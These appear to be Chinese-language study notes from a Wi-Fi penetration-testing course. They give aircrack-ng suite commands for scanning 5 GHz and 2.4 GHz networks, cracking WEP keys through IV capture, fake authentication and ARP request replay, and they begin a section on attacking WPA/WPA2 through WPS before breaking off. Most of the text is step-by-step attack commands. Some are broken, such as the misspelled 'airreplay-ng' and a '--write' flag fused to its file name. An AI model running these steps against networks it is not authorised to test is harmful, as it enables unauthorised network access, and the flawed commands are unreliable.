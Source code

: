 扫描5G wifi `airodump-ng --band a wlan0 ` (band a support 5Ghz frequency)

扫描5G and 2.4G `airodump-ng --band abg wlan0`

## Gaining Access

### WEP(Wired Equivalent Privacy)

使用RC4算法加密数据

IV（initialization vector 24bits）+Key(password) = Key stream, 每个报文都会单独生成IV,且明文传送，然其长度为24bit，将会重复

### WEP Cracking - Basic Case

思路：

​	使用airodump-ng抓大量的包，从而得到重复的iv

​	`airodump-ng --bssid 00:11:22:33:44:55 --channel 1 --writebasic_wep wlan0`

​	使用aircrack-ng分析破解key

​	`aircrack-ng basic_wep-01.cap`

​	拷贝Key 去掉 : 即可

### WEP Cracking - Fake Authentication

开启侦听

`airodump-ng --bssid 00:11:22:33:44:55 --channel 1 --write arpreplay mon0`

fake auth attack

`airreplay-ng --fakeauth 0 -a AS_MAC -h MY_WIRELESS＿MAC mon0`

可以看到 正在监听的网络AUTH变为OPN

###WEP Cracking - ARP Request Replay Attack

在侦听的同时

`airreplay-ng --arpreplay -b AS_MAC -h MY_WIRELESS＿MAC  mon0`

然后

`aircrack-ng arpreplay-01.cap` 

### WPA/WPA2 Cracking - Introduction

WPA/WPA2只是加密算法不同，破解步骤几乎相同

WPA/WPA2 破解有一定难度，所以值得尝试 wps

wps，开启PBC后会拒绝所有连接

### WPA/WPA2 Cracking - Exploiting WPS Feature

1.检测有哪些设备打开了wps

